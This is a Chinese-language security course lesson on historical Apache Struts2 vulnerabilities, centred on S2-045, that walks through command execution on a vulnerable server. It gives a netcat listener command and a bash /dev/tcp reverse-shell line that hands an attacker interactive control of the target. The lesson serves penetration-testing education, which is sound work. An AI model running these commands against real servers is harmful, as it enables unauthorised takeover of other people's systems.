# 网络安全系统教学合集：P47：Struts2历史漏洞及利用 🛡️

在本节课中，我们将学习Struts2框架的历史漏洞及其利用方法。Struts2是一个广泛使用的Java Web应用开发框架，但由于其复杂性和历史原因，曾曝出大量高危安全漏洞。我们将重点介绍S2-045漏洞，并演示如何识别存在漏洞的系统以及如何利用该漏洞获取系统权限。

## 第一部分：Struts2框架介绍

上一节我们概述了本节课的内容，本节中我们来看看什么是Struts2框架。

Struts2是美国阿帕奇软件基金会负责的一个开源项目，是一套用于创建企业级Java Web应用程序的开源MVC框架。

**MVC框架**指的是模型（Model）、视图（View）和控制器（Controller）的设计模式。Struts2在该模式中主要充当控制器，负责建立模型与视图之间的数据交互。



简单来说，Struts2是一个用于构建网站的框架，许多网站都基于此框架设计。该框架在历史上曝出了非常多的安全漏洞。



以下是部分著名的Struts2漏洞编号：
*   S2-001
*   S2-003
*   S2-005
*   S2-045
*   S2-057
*   S2-059 (CVE-2019-0232)
*   S2-060 (CVE-2019-0233)



由于Struts2应用广泛，这些漏洞虽然年代可能较久远，但在日常渗透测试中仍可能遇到，因此都值得尝试。





## 第二部分：漏洞利用演示 - 以S2-045为例

了解了Struts2的基本情况后，本节我们将以S2-045漏洞为例，学习如何利用它执行系统命令并建立反向Shell连接。

首先，我们需要在存在S2-045漏洞的目标网站上执行命令。通过构造特定的恶意请求，可以验证漏洞是否存在并执行命令，例如列出当前目录的文件。





**验证命令执行的Payload示例**：
```
...&(ls /tmp)=1
```



当确认可以执行命令后，下一步是建立反向Shell连接，从而完全控制目标服务器。



### 建立反向Shell连接

以下是建立反向Shell的步骤：



1.  **在攻击机上监听端口**：
    在具有公网IP的攻击机上，使用`netcat`工具监听一个端口，等待目标服务器的连接。
    **监听命令**：
    ```bash
    nc -lvp 1234
    ```
    *   `-l`：指定监听模式。
    *   `-v`：输出详细信息。
    *   `-p 1234`：指定监听端口为1234。



2.  **在目标服务器上执行反弹Shell命令**：
    利用S2-045漏洞，在目标服务器上执行以下命令，让其主动连接到攻击机。
    **反弹Shell命令**：
    ```bash
    bash -i >& /dev/tcp/[攻击机IP]/1234 0>&1
    ```
    *   `bash -i`：启动一个交互式Shell。
    *   `>& /dev/tcp/[攻击机IP]/1234`：将Shell的输入输出重定向到TCP连接。`/dev/tcp/`是Linux中的一个特殊设备文件，用于实现网络Socket调用。
    *   `0>&1`：将标准输入（文件描述符0）重定向到标准输出（文件描述符1），从而完成交互。







执行成功后，攻击机的`netcat`监听端会接收到来自目标服务器的连接，并获得一个可交互的Shell。此时，可以执行如`id`、`whoami`等命令来验证权限，这意味着已经成功控制了目标服务器。

## 总结 🎯





本节课中我们一起学习了Struts2框架的基本概念及其历史上存在的大量安全漏洞。我们重点演示了如何利用S2-045漏洞，从最初的命令执行验证，到最终建立反向Shell连接并获得服务器控制权的完整过程。理解这些历史漏洞的利用方式，对于进行网络安全渗透测试和漏洞修复至关重要。